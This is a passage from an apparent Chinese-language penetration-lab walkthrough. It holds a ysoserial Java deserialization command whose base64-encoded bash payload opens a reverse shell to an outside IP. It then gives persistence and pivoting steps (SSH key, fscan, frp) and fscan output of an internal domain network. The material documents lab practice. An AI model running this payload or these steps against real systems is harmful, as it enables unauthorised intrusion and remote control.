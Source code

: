 yso启rmi服务

```bash
 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xODIuOTIuMTYxLjIyMi83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

反弹shell

![image-20231017003352612](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017003352612.png)

获取flag

![image-20231017003429061](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017003429061.png)

先写ssh公钥

xshell连接

传fscan、frp

fscan扫

```bash
(icmp) Target 172.22.13.14    is alive
(icmp) Target 172.22.13.6     is alive
(icmp) Target 172.22.13.28    is alive
(icmp) Target 172.22.13.57    is alive
[*] Icmp alive hosts len is: 4
172.22.13.28:3306 open
172.22.13.28:445 open
172.22.13.14:8080 open
172.22.13.6:445 open
172.22.13.28:8000 open
172.22.13.28:139 open
172.22.13.6:139 open
172.22.13.28:135 open
172.22.13.6:135 open
172.22.13.57:80 open
172.22.13.28:80 open
172.22.13.57:22 open
172.22.13.14:22 open
172.22.13.14:21 open
172.22.13.6:88 open
172.22.13.14:80 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.13.28
   [->]WIN-HAUWOLAO
   [->]172.22.13.28
[*] NetBios: 172.22.13.6     [+]DC XIAORANG\WIN-DC          
[*] WebTitle: http://172.22.13.57       code:200 len:4833   title:Welcome to CentOS
[*] WebTitle: http://172.22.13.14       code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios: 172.22.13.28    WIN-HAUWOLAO.xiaorang.lab           Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.13.14:8080  code:200 len:3655   title:公司发货单
[+] ftp://172.22.13.14:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] WebTitle: http://172.22.13.28       code:200 len:2525   title:欢迎登录OA办公平台
[*] NetInfo:
[*]172.22.13.6
   [->]WIN-DC
   [->]172.22.13.6
[*] WebTitle: http://172.22.13.28:8000  code:200 len:170    title:Nothing Here.
```